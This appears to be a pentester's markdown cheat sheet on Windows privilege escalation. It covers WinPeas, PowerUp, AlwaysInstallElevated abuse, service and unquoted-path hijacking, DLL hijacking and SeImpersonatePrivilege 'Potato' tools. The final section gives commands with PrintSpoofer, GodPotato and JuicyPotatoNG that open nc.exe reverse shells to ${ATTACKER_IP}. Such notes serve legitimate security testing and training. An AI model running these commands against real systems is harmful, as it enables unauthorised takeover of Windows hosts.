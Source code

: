 # Privilege Escalation

## WinPeas

[WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

(also installable with `sudo apt install peass`, resulting in binaries found with `winpeas --help` and `linpeas --help` )


If WinPeas shows the lines:

```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

we can install msis as authority\system.
Generate an msi reverse shell with `msfvenom`, and we own the machine.


## PowerUp

[PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

If the shell complains that scripts are turned off, do `powershell -ep bypass` to allow the script to be run.

Get it onto the target machine, do `Import-Module .\PowerUp.ps1`.
Now, we can run the functions defined in the script, such as `Get-ModifiableServiceFile` or `Get-UnquotedService`

Note that `Get-UnquotedService` will give you all the information you need, including the same results as enumerating which paths we have access to with `icacls $Path`.
It will give you the ModifiablePaths where we can dump our .exe for the service to find.


## EventViewer UAC Bypass

If PowerUp or winpeas tells you there's an escalation route through EventViewer UAC Bypass, have a look at [this](https://github.com/CsEnox/EventViewer-UACBypass).

## Windows services

### Hijacking the binary

remember you can use `Get-ModifiableServiceFile` from PowerUp.

We can query the wmi class `win32_service` in the following manner:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Once we identify a potentially vulnerable service, we can use `Get-ACL` or `icacls` to check permissions of the services.

We are looking for services where we are:

* Able to change the executable
* Able to restart the service

If we can switch out the executable with our own (eg from [win-x64-privesc](./../../payloads-n-scripts/win-x64-privesc/createadmin.exe)), we can escalate.

If the service is set to StartMode: Auto, consider if you can restart the machine after swapping out the exe-file.

### Hijacking DLLs

If we can see that a service runs specific DLLs, we might be able to hijack such a DLL and trigger our own code.

### Service Paths

Because of the way windows looks through paths, we can inject an executable into an unquoted path.
If the executable is located in:

```
C:\Program Files\SomeService\Version A\Service.exe
```
and we have write access to eg. 
```
C:\Program Files\SomeService\
```
then we can create a `Version.exe` and place it:
```
C:\Program Files\SomeService\Version.exe
```
This of course requires us to have write-access to part of the unquoted path, and access to restart the service in one way or another.


## Scheduled Tasks


To use tasks we need to consider:
* Who executes the task?
* What triggers the task?
* What happens it triggers?

Cmdlet for querying tasks:

```
schtasks /query /fo LIST /v

```
Information to look at is TaskName, Next Run Time, Author, Task to Run and Run As User.



As the output can be quite long, consider doing something like:

```
schtasks /query /fo LIST /v > tasks.txt
```
And then transfering the list to the attack box


## Procmon

Should you identify a windows service you are interested in analyzing with Procmon,
transfer it to a Windows VM (including any .dlls in the same dir), install the service with:

```
sc.exe create ${SERVICE_NAME} binPath="${EXE_PATH}"
```

Now, transfer Procmon to the VM, start Procmon, set `Filter > Process Name > ${EXE_NAME.exe}`, add and apply.
Consider removing the registry entries event view too as they tend to clutter the overview.

Now, do `sc.exe start ${SERVICE_NAME}` and you can analyze the events.
Hopefully, a missing dll will show up for you to use.
Under the RESULT column, look for a dll with "NAME NOT FOUND".


## Misc Exploits - SeImpersonatePrivilege

When looking at privilege escalation, the privilege `SeImpersonatePrivilege` can be interesting, as it allows users to run commands as another user.
By default, this privilege is given to the accounts:

* local Administrators
* LOCAL SERVICE
* NETWORK SERVICE
* SERVICE

If we have exploited IIS, it is not uncommon to have a shell running as

* LocalService
* LocalSystem
* NetworkService
* ApplicationPoolIdentity

Which all have SeImpersonatePrivilege.


Note that with SeImpersonatePrivilege it can be good to try out multiple of the "Potato" exploits as they might not all work.

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) seems to generally be pretty successful with creating a reverse shell.
If not that one, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) also seems to do the job most of the time.


### Potato command examples

```
./PrintSpoofer.exe -i -c cmd
```
or if you don't have an interactive shell:

```
./PrintSpoofer.exe -i -c "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```


```
./GodPotato -cmd "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```

```
./JuicyPotatoNG.exe -t * -p "./nc.exe" -a "${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
./JuicyPotatoNG.exe -t * -p "./shell.exe" 
```

If one doesn't work, try them all.
A workaround can also be to use them to create a new admin user that you can log in with.

